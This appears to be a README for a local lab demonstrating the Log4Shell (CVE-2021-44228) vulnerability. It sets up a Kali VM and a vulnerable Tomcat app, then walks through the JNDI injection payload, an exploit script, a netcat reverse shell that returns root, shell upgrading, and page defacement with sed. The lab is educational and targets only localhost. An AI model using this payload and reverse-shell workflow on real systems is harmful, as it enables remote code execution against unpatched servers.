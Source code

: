 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up kalilab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision kalilab`

7. Connect with ssh: `vagrant ssh kalilab`

## Lab environment

Open the kalilab GUI and login with kauser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
┌──(kauser㉿kalilab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

#### Terminal 2: Launch exploit

```bash
┌──(kauser㉿kalilab)-[/log4jlab]
└─$ cd /log4jlab/; ls
Dockerfile     jdk-8u20-linux-x64.tar.gz  requirements.txt
Exploit.class  LICENSE                    target
Exploit.java   poc.py                     vulnerable-application
jdk1.8.0_20    README.md

┌──(kauser㉿kalilab)-[/log4jlab]
└─$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001       

[!] CVE: CVE-2021-44228                                                      
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                   
                                                                             
[+] Exploit java class created success
[+] Setting up LDAP server
                                                                             
[+] Send me: ${jndi:ldap://localhost:1389/a}
                                                                             
[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
┌──(kauser㉿kalilab)-[/log4jlab]
└─$ cd /log4jlab/

┌──(kauser㉿kalilab)-[/log4jlab]
└─$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in 118c9f3dab57
Removing intermediate container 118c9f3dab57
 ---> 0a7905e32954
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> c038eb1ce771
Step 4/5 : EXPOSE 8080
 ---> Running in e44c024ec983
Removing intermediate container e44c024ec983
 ---> 58cbb415ad3a
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in d10ead2ef23b
Removing intermediate container d10ead2ef23b
 ---> 989227232ea8
Successfully built 989227232ea8
Successfully tagged log4j-shell-poc:latest

┌──(kauser㉿kalilab)-[/log4jlab]
└─$ docker run --network host log4j-shell-poc                                
25-Apr-2022 00:10:33.847 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-kali3-amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-Apr-2022 00:10:33.855 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-Apr-2022 00:10:33.919 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:33.929 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:33.930 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 380 ms
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.968 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-Apr-2022 00:10:34.099 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-Apr-2022 00:10:34.368 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-Apr-2022 00:10:34.389 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 420 ms
25-Apr-2022 00:10:34.390 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:34.408 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:34.409 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 478 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/kalilabimg/1.poc-log4shell.png)

The hack succeeded when the netcat listener gives:

```bash
┌──(kauser㉿kalilab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
```

### Hack along

You can check your access and log4shell

```bash
┌──(kauser㉿kalilab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@kalilab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
┌──(kauser㉿kalilab)-[~]
└─$ stty raw -echo; fg; reset
nc -lvnp 9001

root@kalilab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@kalilab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```
